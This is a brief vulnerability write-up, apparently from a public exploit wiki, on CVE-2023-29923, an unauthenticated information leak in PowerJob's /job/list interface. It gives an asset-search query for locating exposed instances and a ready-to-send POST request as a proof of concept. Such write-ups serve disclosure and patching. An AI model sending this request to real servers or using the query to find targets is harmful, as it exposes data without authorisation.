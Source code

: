 # PowerJob list Information Leakage Vulnerability CVE-2023-29923

## Vulnerability Description

There is an information leakage vulnerability in the PowerJob list interface. Attackers can access the authorized interface without authorization and obtain sensitive data.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PowerJob</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="PowerJob"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682086796259-10d346df-2520-4671-abc7-9590e9676a13.png)

Verify POC

```plain
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682086913135-2a656856-28ff-448b-b549-cf68611b8175.png)